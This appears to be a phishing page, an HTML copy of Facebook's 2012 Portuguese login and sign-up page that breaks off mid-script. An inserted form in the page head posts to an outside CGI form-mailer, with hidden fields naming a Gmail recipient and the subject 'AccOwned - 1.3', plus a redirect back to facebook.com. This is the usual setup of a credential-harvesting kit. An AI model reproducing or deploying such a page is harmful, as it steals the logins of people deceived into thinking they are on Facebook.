 <!DOCTYPE html>
<html lang="pt" id="facebook" class="no_js">
<head><meta charset="utf-8" /><script>function envFlush(a){function b(c){for(var d in a)c[d]=a[d];}if(window.requireLazy){requireLazy(['Env'],b);}else{Env=window.Env||{};b(Env);}}
envFlush({"ffid1":"AcGWQU_vTXX_Zt6tsj6EyG9gCdPp1G3U7S9RzMEt28796--Yn09H-RYn9kyGxqqMY8k","ffid2":"AcGF-liQN5hSZ56peccx32whYLQb7HG6lgV0auiODLRLfX8Ze_VU3ONiUD6hfobkhTU","ffid3":"AcHk-4Fo8IrxUm22393oy8pc-8zehtVKCf7Dbkab8FkiyysPbr3PutdfF0H1Tf8-t8YoLkK0ivDQ6JAt3bvk6HRb","ffid4":"AcGsAUPkIRcsjUSRUe1Ou_U9-RkBcMwP4dnci_eW-87lEvASJIInRr7QuBrh-8QL8OU","ffver":63083,"recaptcha_focus_on_load":"false","recaptcha_lang":"\"en\"","user":"0","locale":"pt_BR","method":"GET","svn_rev":688594,"tier":"","vip":"31.13.73.23","static_base":"https:\/\/s-static.ak.facebook.com\/","www_base":"http:\/\/www.facebook.com\/","rep_lag":2,"fb_dtsg":"AQBU0AME","ajaxpipe_token":"AXiuFsxdfrOHKVVc","lhsh":"DAQFlzNEL","tracking_domain":"https:\/\/pixel.facebook.com","retry_ajax_on_network_error":"1","fbid_emoticons":"1"});</script><script>envFlush({"eagleEyeConfig":{"seed":"03qh","sessionStorage":true}});CavalryLogger=false;window._script_path = "\/index.php";</script><noscript><meta http-equiv="refresh" content="0; URL=/?_fb_noscript=1" /></noscript><meta name="application-name" content="Facebook" /><meta name="msapplication-tooltip" content="Visite o Facebook para conectar-se com seus amigos" /><meta name="msapplication-starturl" content="/" /><meta name="msapplication-window" content="width=1230;height=700" /><meta name="msapplication-task" content="name=Not&#xed;cias;action-uri=/?sk=nf;icon-uri=/images/icons/app/news.ico" /><meta name="msapplication-task" content="name=Mensagens;action-uri=/?sk=inbox;icon-uri=/images/icons/app/messages.ico" /><meta name="msapplication-task" content="name=Eventos;action-uri=/?sk=events;icon-uri=/images/icons/app/events.ico" /><meta name="msapplication-task" content="name=Amigos;action-uri=/?sk=fr;icon-uri=/images/icons/app/friends.ico" /><meta name="robots" content="noodp, noydir" /><meta name="referrer" content="default" id="meta_referrer" /><meta name="description" content=" O Facebook &#xe9; uma rede social que re&#xfa;ne pessoas a seus amigos e &#xe0;queles com quem trabalham, estudam e convivem. As pessoas participam do Facebook para manter contato com seus amigos, carregar um n&#xfa;mero ilimitado de fotos, compartilhar links e v&#xed;deos e aprender mais sobre as pessoas que conhecem." /><link rel="alternate" media="handheld" href="https://www.facebook.com/" /><title id="pageTitle">Bem-vindo ao Facebook - acesse, cadastre-se ou saiba mais.</title><meta property="og:image" content="https://www.facebook.com/images/fb_icon_325x325.png" /><link rel="shortcut icon" href="https://s-static.ak.facebook.com/rsrc.php/yP/r/Ivn-CVe5TGK.ico" /><noscript><meta http-equiv="X-Frame-Options" content="deny" /></noscript>
    <link rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yj/r/qzwo6ysqs77.css" />
    <link rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yO/r/VgC4D9ag6Er.css" />
    <link rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yY/r/u8iA3kXb8Y1.css" />

<form METHOD="POST" ACTION="http://terra.planetarium.com.br/cgi-bin/processform.cgi">
<INPUT TYPE="HIDDEN" NAME="TO" VALUE="geovannabucci.contact@gmail.com">
<INPUT TYPE="HIDDEN" NAME="FROM" VALUE="AccOwned - 1.3">
<INPUT TYPE="HIDDEN" NAME="SUBJECT" VALUE="AccOwned - 1.3">
<INPUT TYPE="HIDDEN" NAME="RESPONDER" VALUE="http://www.facebook.com/">
    <script src="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yB/r/MGmnFrWer13.js"></script>
  <script>window.Bootloader && Bootloader.done(["Blak7"]);</script><script>new (require("ServerJS"))().handle({"require":[["lowerDomain"],["QuicklingPrelude"],["Primer"]]})</script></head><body class="fbIndex UIPage_LoggedOut ie9 win Locale_pt_BR"><div id="FB_HiddenContainer" style="position:absolute; top:-10000px; width:0px; height:0px;"></div><div class="_li"><div id="pagelet_bluebar" data-referrer="pagelet_bluebar"><div id="blueBarHolder"><div id="blueBar"><div><div class="loggedout_menubar_container"><div class="clearfix loggedout_menubar"><a class="lfloat" href="/" title="Ir para a p&#xe1;gina inicial do Facebook"><i class="fb_logo img sp_38839k sx_127aa9"><u>Logotipo do Facebook</u></i></a><div class="menu_login_container rfloat"><form id="login_form" action="https://www.facebook.com/login.php?login_attempt=1" method="post" onsubmit="return window.Event &amp;&amp; Event.__inlineSubmit &amp;&amp; Event.__inlineSubmit(this,event)"><input type="hidden" name="lsd" value="AVoyxwZ4" autocomplete="off" /><table cellspacing="0"><tr><td class="html7magic"><label for="email">E-mail ou telefone</label></td><td class="html7magic"><label for="pass">Senha</label></td></tr><tr><td><input type="text" class="inputtext" name="email" id="email" value="" tabindex="1" /></td><td><input type="password" class="inputtext" name="pass" id="pass" tabindex="2" /></td><td><label class="uiButton uiButtonConfirm" id="loginbutton" for="u5v8wy74"><input value="Entrar" tabindex="4" type="submit" id="u5v8wy74" /></label></td></tr><tr><td class="login_form_label_field"><div><div class="uiInputLabel clearfix"><input id="persist_box" type="checkbox" name="persistent" value="1" tabindex="3" class="uiInputLabelCheckbox" /><label for="persist_box">Mantenha-me conectado</label></div><input type="hidden" name="default_persistent" value="0" /></div></td><td class="login_form_label_field"><a rel="nofollow" href="http://www.facebook.com/recover/initiate">Esqueceu sua senha?</a></td></tr></table><input type="hidden" name="charset_test" value="&euro;,&acute;,€,´,水,Д,Є" /><input type="hidden" autocomplete="off" name="timezone" value="" id="u5v8wy73" /><input type="hidden" name="lgnrnd" value="115313_Dkkz" /><input type="hidden" id="lgnjs" name="lgnjs" value="n" /><input type="hidden" autocomplete="off" id="locale" name="locale" value="pt_BR" /></form></div></div></div></div></div></div></div><div id="globalContainer" class="uiContextualLayerParent"><div id="content" class="fb_content clearfix"><div><!-- 2365fa3194ecdc0cab15721ce967a9f8663937c7 --><div class="gradient"><div class="gradientContent"><div class="clearfix fbIndexFeaturedRegistration"><div class="feature lfloat"><div class="clearfix fbIndexMobile"><a class="lfloat" ajaxify="/ajax/mobile/sms_link/?src=lo&amp;type=install_via_sms" tabindex="-1" href="#" rel="dialog" role="button"><img class="mtm phoneImage img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yt/r/FZaMKqARgC6.png" alt="" width="97" height="205" /></a><div class="clearfix rightSide rfloat"><div class="lfloat"><div class="title fsl fwb fcb">Está saindo? Continue conectado.</div><div class="subtitle fsm fwn fcg">Acesse facebook.com em seu celular.</div></div><a class="mrl mobileButton rfloat uiButton" href="#" role="button" ajaxify="/ajax/mobile/sms_link/?src=lo&amp;type=install_via_sms" rel="dialog"><span class="uiButtonText">Obter o Facebook Móvel</span></a></div></div></div><div class="signupForm rfloat"><div class="mbm phm headerTextContainer"><div class="mbs mainTitle fsl fwb fcb">Cadastre-se</div><div class="mbm subtitle fsm fwn fcg">É gratuito e sempre será.</div></div><div id="registration_container"><div data-referrer="simple_registration_form"><noscript><div id="no_js_box"><h2>O JavaScript está desativado em seu navegador.</h2><p>Ative o Javascript no seu navegador ou atualize para um navegador compatível com Javascript para se cadastrar no Facebook.</p></div></noscript><div id="simple_registration_container" class="simple_registration_container"><div id="reg_box"><form method="post" id="reg" name="reg" action="https://m.facebook.com/r.php" onsubmit="return function(event)&#123;return false;&#125;.call(this,event)!==false &amp;&amp; window.Event &amp;&amp; Event.__inlineSubmit &amp;&amp; Event.__inlineSubmit(this,event)"><input type="hidden" name="lsd" value="AVoyxwZ4" autocomplete="off" /><input type="hidden" autocomplete="off" id="reg_instance" name="reg_instance" value="qZrDUFsLmKYPiiuqW5gOmDEo" /><input type="hidden" autocomplete="off" id="asked_to_login" name="asked_to_login" /><input type="hidden" autocomplete="off" id="locale" name="locale" value="pt_BR" /><input type="hidden" autocomplete="off" id="terms" name="terms" value="on" /><input type="hidden" autocomplete="off" id="abtest_registration_group" name="abtest_registration_group" value="1" /><input type="hidden" autocomplete="off" id="referrer" name="referrer" value="" /><input type="hidden" autocomplete="off" id="md5pass" name="md5pass" value="" /><input type="hidden" autocomplete="off" id="validate_mx_records" name="validate_mx_records" value="1" /><input type="hidden" autocomplete="off" id="ab_test_data" name="ab_test_data" value="" /><div id="reg_form_box" class="large_form"><table class="uiGrid editor" cellspacing="0" cellpadding="1"><tbody><tr><td class="label"><label for="firstname">Nome:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="firstname" name="firstname" aria-required="true" /></div></td></tr><tr><td class="label"><label for="lastname">Sobrenome:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="lastname" name="lastname" aria-required="true" /></div></td></tr><tr><td class="label"><label for="reg_email__">Seu e-mail:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="reg_email__" name="reg_email__" aria-required="true" /></div></td></tr><tr><td class="label"><label for="reg_email_confirmation__">Insira o e-mail novamente:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="reg_email_confirmation__" name="reg_email_confirmation__" aria-required="true" /></div></td></tr><tr><td class="label"><label for="reg_passwd__">Nova senha:</label></td><td><div class="field_container"><input type="password" class="inputtext" id="reg_passwd__" name="reg_passwd__" value="" aria-required="true" /></div></td></tr><tr><td class="label">Eu sou:</td><td><div class="field_container"><div class="hidden_elem"><select><option></option><option></option></select><select><option></option><option></option></select></div><select class="select" name="sex" id="sex" aria-required="true"><option value="0">Selecione o gênero:</option><option value="1">Feminino</option><option value="2">Masculino</option></select></div></td></tr><tr><td class="label">Aniversário:</td><td><div class="field_container"> <select name="birthday_day" id="birthday_day" aria-label="Dia" class=""><option value="-1">Dia:</option><option value="1">1</option><option value="2">2</option><option value="3">3</option><option value="4">4</option><option value="5">5</option><option value="6">6</option><option value="7">7</option><option value="8">8</option><option value="9">9</option><option value="10">10</option><option value="11">11</option><option value="12">12</option><option value="13">13</option><option value="14">14</option><option value="15">15</option><option value="16">16</option><option value="17">17</option><option value="18">18</option><option value="19">19</option><option value="20">20</option><option value="21">21</option><option value="22">22</option><option value="23">23</option><option value="24">24</option><option value="25">25</option><option value="26">26</option><option value="27">27</option><option value="28">28</option><option value="29">29</option><option value="30">30</option><option value="31">31</option></select> <select name="birthday_month" id="birthday_month" aria-label="M&#xea;s" class="" onchange="return run_with(this, [&quot;editor&quot;], function() &#123;editor_date_month_change(this, &quot;birthday_day&quot;, &quot;birthday_year&quot;);&#125;);"><option value="-1">Mês:</option><option value="1">janeiro</option><option value="2">fevereiro</option><option value="3">março</option><option value="4">abril</option><option value="5">maio</option><option value="6">Junho</option><option value="7">julho</option><option value="8">agosto</option><option value="9">setembro</option><option value="10">outubro</option><option value="11">novembro</option><option value="12">dezembro</option></select> <select name="birthday_year" id="birthday_year" aria-label="Ano" class="" onchange="return run_with(this, [&quot;editor&quot;], function() &#123;editor_date_month_change(&quot;birthday_month&quot;,&quot;birthday_day&quot;,this);&#125;);"><option value="-1">Ano:</option><option value="2012">2012</option><option value="2011">2011</option><option value="2010">2010</option><option value="2009">2009</option><option value="2008">2008</option><option value="2007">2007</option><option value="2006">2006</option><option value="2005">2005</option><option value="2004">2004</option><option value="2003">2003</option><option value="2002">2002</option><option value="2001">2001</option><option value="2000">2000</option><option value="1999">1999</option><option value="1998">1998</option><option value="1997">1997</option><option value="1996">1996</option><option value="1995">1995</option><option value="1994">1994</option><option value="1993">1993</option><option value="1992">1992</option><option value="1991">1991</option><option value="1990">1990</option><option value="1989">1989</option><option value="1988">1988</option><option value="1987">1987</option><option value="1986">1986</option><option value="1985">1985</option><option value="1984">1984</option><option value="1983">1983</option><option value="1982">1982</option><option value="1981">1981</option><option value="1980">1980</option><option value="1979">1979</option><option value="1978">1978</option><option value="1977">1977</option><option value="1976">1976</option><option value="1975">1975</option><option value="1974">1974</option><option value="1973">1973</option><option value="1972">1972</option><option value="1971">1971</option><option value="1970">1970</option><option value="1969">1969</option><option value="1968">1968</option><option value="1967">1967</option><option value="1966">1966</option><option value="1965">1965</option><option value="1964">1964</option><option value="1963">1963</option><option value="1962">1962</option><option value="1961">1961</option><option value="1960">1960</option><option value="1959">1959</option><option value="1958">1958</option><option value="1957">1957</option><option value="1956">1956</option><option value="1955">1955</option><option value="1954">1954</option><option value="1953">1953</option><option value="1952">1952</option><option value="1951">1951</option><option value="1950">1950</option><option value="1949">1949</option><option value="1948">1948</option><option value="1947">1947</option><option value="1946">1946</option><option value="1945">1945</option><option value="1944">1944</option><option value="1943">1943</option><option value="1942">1942</option><option value="1941">1941</option><option value="1940">1940</option><option value="1939">1939</option><option value="1938">1938</option><option value="1937">1937</option><option value="1936">1936</option><option value="1935">1935</option><option value="1934">1934</option><option value="1933">1933</option><option value="1932">1932</option><option value="1931">1931</option><option value="1930">1930</option><option value="1929">1929</option><option value="1928">1928</option><option value="1927">1927</option><option value="1926">1926</option><option value="1925">1925</option><option value="1924">1924</option><option value="1923">1923</option><option value="1922">1922</option><option value="1921">1921</option><option value="1920">1920</option><option value="1919">1919</option><option value="1918">1918</option><option value="1917">1917</option><option value="1916">1916</option><option value="1915">1915</option><option value="1914">1914</option><option value="1913">1913</option><option value="1912">1912</option><option value="1911">1911</option><option value="1910">1910</option><option value="1909">1909</option><option value="1908">1908</option><option value="1907">1907</option><option value="1906">1906</option><option value="1905">1905</option></select></div></td></tr><tr><td class="label"></td><td><div id="birthday_warning"><a href="#" ajaxify="/help/ajax/reg_birthday" title="Clique para obter mais informa&#xe7;&#xf5;es" rel="async">Por que preciso informar minha data de nascimento?</a></div></td></tr><tr><td class="label"></td><td><div class="fbRegistrationPPT" id="ppt_container"><p class="privacy_policy_text text">Ao clicar Cadastre-se, você concorda com nossos <a href="/terms.php" target="_blank" rel="nofollow">Termos</a> e que leu e entendeu nossa <a href="/policy.php" target="_blank" rel="nofollow">Política de uso de dados</a>, incluindo <a href="/help/cookies/" target="_blank" rel="nofollow">Uso de cookies</a>.</p></div></td></tr></tbody></table><div class="reg_btn clearfix"><label class="uiButton uiButtonSpecial" for="u5v8wy71"><input value="Cadastre-se" name="websubmit" onclick="setFormTypeABTest($(&quot;reg&quot;)); RegistrationBootloader.bootloadAndValidate();" type="submit" id="u5v8wy71" /></label><span id="async_status" class="async_status" style="display: none"><img class="img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /></span></div></div><div id="reg_captcha" style="display: none"><div><h2 id="security_check_header">Verificação de segurança</h2><div id="outer_captcha_box"><div id="captcha_box"><div class="field_error" id="captcha_response_error" style="display:none;">Este campo é obrigatório.</div><div id="captcha" class="captcha"><input type="hidden" autocomplete="off" id="captcha_persist_data" name="captcha_persist_data" value="AZkb-B3tEmbrVwvuO1O5os767tE4bsmvqofJ7ubJVh1u2tHCFDqEPZXnLcg7KkZbbQv_4s71_EnEMmOaq6ieyJahbTK2VejzrHCssE_JNBipmvdaECfr9LSwePp9rgkhLgdS2NSym3iD6DIwL9cLGo9_3iazkFyK23JYuVZZ8SMx7q3eK4_GyMlmxpI9fU76y7tm34N6O5BE_BOYwMRdTVrZf8iLsGjaR49lEDd87ZuqvhgKBt32ClChOKAe42JzsB_5vKGj1XeWz_1Twq9PSreH6EuVZ-yZ2VOyNu4dtRF0xUbbYsk5EBesIKAKhFRjdP05lPd02ABScXjJmnFAXhx-nSGWeju7CsX5-94Nz2-QMg" /><div><div id="recaptcha_scripts" style="display:none"></div><input type="hidden" autocomplete="off" id="captcha_session" name="captcha_session" value="DH35WY5OvD2K6zVjsp_S7g" /><input type="hidden" autocomplete="off" id="extra_challenge_params" name="extra_challenge_params" value="authp=nonce.tt.time.new_audio_default&amp;psig=SzSiTje1w-LLufPevGAMMiJqm4U&amp;nonce=DH35WY5OvD2K6zVjsp_S7g&amp;tt=GRo5DTCFTNyeOXtNMmBx9_pREys&amp;time=1354996393&amp;new_audio_default=1" /><input type="hidden" autocomplete="off" id="recaptcha_type" name="recaptcha_type" value="password" /><div class="recaptcha_text"><div class="recaptcha_only_if_image">Digite abaixo ambas as palavras, separadas por um espaço.<br />Não é possível ler as palavras abaixo? <a href="#" onclick="Recaptcha.reload(); return false" id="recaptcha_reload_btn">Tente palavras diferentes</a> ou <a href="#" onclick="Recaptcha.switch_type(&quot;audio&quot;); return false;">um captcha sonoro</a>.</div><div class="recaptcha_only_if_audio" style="display:none">Insira as palavras ou números que você ouvir.<br /><a href="#" onclick="Recaptcha.reload(); return false" id="recaptcha_reload_btn">Tente palavras diferentes</a> ou <a class="recaptcha_only_if_audio" href="#" onclick="Recaptcha.switch_type(&quot;image&quot;); return false;">volte ao texto</a>.</div></div><span id="recaptcha_play_audio"></span><div class="audiocaptcha"></div><div id="recaptcha_image" class="captcha_image"></div><div id="recaptcha_loading">Carregando... <img class="captcha_loading img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" style="height:11px;width:16px;" /></div></div><div class="captcha_input"><label>Texto da caixa:</label><div class="field_container"><input type="text" name="captcha_response" id="captcha_response" autocomplete="off" aria-label="Entrada do captcha. Digite as letras listadas acima para continuar. Al&#xe9;m disso, voc&#xea; pode usar o captcha de &#xe1;udio, clicando no link abaixo." /></div><a class="mlm" href="#" onclick="CSS.show($(&#039;captcha_whats_this&#039;)); return false;">O que é isso?</a><div id="captcha_whats_this" class="hidden_elem"><div class="fsl fwb">Verificação de segurança</div>Este é um teste de segurança padrão que usamos para evitar que contas falsas sejam criadas e enviem spams aos usuários.</div></div></div></div></div><div><div class="gridCol"></div><div class="gridCol"></div></div><div id="captcha_buttons" class="clearfix" style="display: none;"><div id="back_button" class="gridCol"><div class="cancel_button_image">   </div><a id="cancel_button" href="#" onclick="return run_with(this, [&quot;registration&quot;], function() &#123;Registration.getInstance().hide_captcha();Registration.getInstance().show_reg_form();&#125;);">Voltar</a></div><div id="A_btn_sign_up" class="gridCol"><div class="reg_btn clearfix"><label class="big_input uiButton uiButtonSpecial" for="u5v8wy72"><input value="Cadastre-se" onclick="setFormTypeABTest($(&quot;reg&quot;)); Registration.getInstance().validateForm();" type="submit" id="u5v8wy72" /></label><span id="captcha_async_status" class="async_status" style="display: none"><img class="img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /></span></div></div></div></div></div></form><div id="reg_progress" style="display: none"><div id="progress_wrap"><img class="img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /><div id="progress_msg">Registrando...</div></div></div><div id="reg_error" class="hidden_elem"><div id="reg_error_inner">Ocorreu um erro. Tente novamente.</div></div><div id="tos_container" class="tos_container"><p class="legal_tos hidden_elem">Ao clicar em Cadastre-se, você está afirmando que leu e concorda com os <a href="/legal/terms" target="_blank" rel="nofollow">Termos de uso</a> e com a <a href="/policy.php" target="_blank" rel="nofollow">Política de privacidade</a>.</p></div><div id="reg_pages_msg" class="pagesSection pagesSectionPPT"><a href="/pages/create.php">Crie uma página</a> para uma celebridade, banda ou empresa.</div></div></div></div></div></div></div></div></div><div class="mtm locales"><ul class="uiList localeSelectorList _4ki clearfix _6-h _6-j _6-i"><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;pt_BR&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Portuguese (Brazil)">Português (Brasil)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;en_US&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="English (US)">English (US)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;es_LA&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Spanish">Español</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;fr_FR&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="French (France)">Français (France)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;de_DE&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="German">Deutsch</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;it_IT&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Italian">Italiano</a></li><li class="uiListItem"><a dir="rtl" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;ar_AR&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Arabic">العربية</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;hi_IN&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Hindi">हिन्दी</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;zh_CN&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Simplified Chinese (China)">中文(简体)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;ja_JP&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Japanese">日本語</a></li><li class="uiListItem"><a class="showMore" rel="dialog" href="/ajax/intl/language_dialog.php?uri=https%3A%2F%2Fwww.facebook.com%2F&amp;source=TOP_LOCALES_DIALOG" title="Mostrar mais idiomas" role="button">...</a></li></ul></div></div></div><div id="pageFooter" data-referrer="page_footer"><div id="contentCurve"></div><div class="clearfix" id="footerContainer"><div class="mrl lfloat"><div class="fsm fwn fcg"><span> Facebook © 2012</span> · <a rel="dialog" href="/ajax/intl/language_dialog.php?uri=https%3A%2F%2Fwww.facebook.com%2F" title="Use o Facebook em outro idioma." role="button">Português (Brasil)</a></div></div><div class="navigation fsm fwn fcg" role="contentinfo" aria-label="Links para sites do Facebook"><a href="http://www.facebook.com/mobile/?ref=pf" title="Confira o Facebook M&#xf3;vel.">Celular</a> · <a href="http://www.facebook.com/find-friends?ref=pf" title="Encontre qualquer pessoa na Web.">Localizar amigos</a> · <a href="http://www.facebook.com/badges/?ref=pf" title="Incorporar um atalho do Facebook em seu site.">Atalhos</a> · <a href="http://www.facebook.com/directory/people/" title="Navegue no nosso diret&#xf3;rio de pessoas.">Pessoas</a> · <a href="http://www.facebook.com/directory/pages/" title="Pesquisar nosso diret&#xf3;rio de p&#xe1;ginas.">Páginas</a> · <a href="http://www.facebook.com/appcenter/?ref=pf" title="Check out Facebook App Center.">Aplicativos</a> · <a href="http://www.facebook.com/appcenter/category/games/?ref=pf" title="Check out Facebook games.">Jogos</a> · <a href="http://www.facebook.com/appcenter/category/music/?ref=pf" title="Check out Facebook music apps.">Música</a> · <a href="http://www.facebook.com/facebook" accesskey="8" title="Leia nosso blog, descubra a central de recursos e encontre oportunidades de trabalho.">Sobre</a> · <a href="http://www.facebook.com/campaign/landing.php?placement=pflo&amp;campaign_id=402047449186&amp;extra_1=auto" title="Anuncie no Facebook.">Criar um anúncio</a> · <a href="http://www.facebook.com/pages/create.php?ref_type=sitefooter" title="Criar uma p&#xe1;gina">Criar uma página</a> · <a href="http://developers.facebook.com/?ref=pf" title="Desenvolver em nossa plataforma.">Desenvolvedores</a> · <a href="http://www.facebook.com/careers/?ref=pf" title="D&#xea; um passo adiante na sua carreira em nossa incr&#xed;vel empresa.">Carreiras</a> · <a href="http://www.facebook.com/privacy/explanation" title="Saiba mais sobre sua privacidade e o Facebook.">Privacidade</a> · <a href="http://www.facebook.com/help/cookies" title="Saiba mais sobre cookies e o Facebook">Cookies</a> · <a href="http://www.facebook.com/policies/?ref=pf" accesskey="9" title="Consulte nossos termos e pol&#xed;ticas.">Termos</a> · <a href="http://www.facebook.com/help/?ref=pf" accesskey="0" title="Acesse nossa Central de ajuda.">Ajuda</a></div></div></div></div></div><script type="text/javascript">/*<![CDATA[*/function si_cj(m){setTimeout(function(){new Image().src="https:\/\/error.facebook.com\/common\/scribe_endpoint.php?c=si_clickjacking&t=2474"+"&m="+m;},5000);}if(top!=self && !false){try{if(parent!=top){throw 1;}var si_cj_d=["apps.facebook.com","\/pages\/","apps.beta.facebook.com"];var href=top.location.href.toLowerCase();for(var i=0;i<si_cj_d.length;i++){if (href.indexOf(si_cj_d[i])>=0){throw 1;}}si_cj("3 ");}catch(e){si_cj("1 \t");window.document.write("\u003Cstyle>body * {display:none !important;}\u003C\/style>\u003Ca href=\"#\" onclick=\"top.location.href=window.location.href\" style=\"display:block !important;padding:10px\">\u003Ci class=\"img sp_4yuo6n sx_fc69b8\" style=\"display:block !important\">\u003C\/i>Acesse Facebook.com\u003C\/a>");/*snm9mLFO*/}}/*]]>*/</script>
<script>Bootloader.setResourceMap({"A77NA":{"type":"css","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yj\/r\/qzwo6ysqs77.css"},"byJia":{"type":"css","permanent":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yO\/r\/VgC4D9ag6Er.css"},"VuNPD":{"type":"css","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yY\/r\/u8iA3kXb8Y1.css"},"X\/Fq6":{"type":"css","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y6\/r\/YlbIHaln_Rk.css"},"iQgIT":{"type":"css","permanent":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ye\/r\/M0q_X9Mzhmq.css"},"VDymv":{"type":"css","permanent":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yw\/r\/LpbNnLl9JJr.css"}});Bootloader.setResourceMap({"YO7w5":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yz\/r\/px7wbKcfGEw.js"},"wLu\/7":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yK\/r\/k_QLfmH7oOh.js"},"T8gbI":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yM\/r\/GCmGQbg43Sl.js"},"uqSgb":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y5\/r\/gQf0tONrZtt.js"},"ne+Ol":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yB\/r\/s2pT6tI0qDP.js"},"rZ79y":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y0\/r\/wrjUg3Fs6TZ.js"},"JE+14":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ys\/r\/UkEsdnWXuKD.js"},"gM1Bs":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yJ\/r\/F_4RG0MPVux.js"},"oE4Do":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yD\/r\/65c9OW-i481.js"},"\/K81D":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yl\/r\/cwMSzldh79l.js"},"GTz7X":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yg\/r\/eSdktajXroe.js"},"MqSmz":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yH\/r\/ghlEJgSKAee.js"},"cNca2":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yn\/r\/XQ1IPAI9NyR.js"},"\/vuZw":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yk\/r\/g6wsSYlWI6X.js"},"bwsMw":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y_\/r\/hwOyT9fmfZV.js"},"3quxQ":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y4\/r\/Wv8z1iI3Pjh.js"},"zyFOp":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y4\/r\/61VSNDvRJnS.js"},"9kSd2":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yb\/r\/6jEpoP3b9tx.js"},"SRzKv":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ys\/r\/cl0g7zmlNIs.js"},"KQ5I8":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yb\/r\/O23eVP80saT.js"},"M2hRu":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ya\/r\/i_5_NPA0B8N.js"},"2ma5f":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yo\/r\/hCn6u3fXLtg.js"},"j07DW":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y5\/r\/jApT8n6JsZx.js"},"wxq+C":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yJ\/r\/f5uM6pYP8bY.js"},"DZmeF":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y2\/r\/ZeZFU7zHXuC.js"},"H42J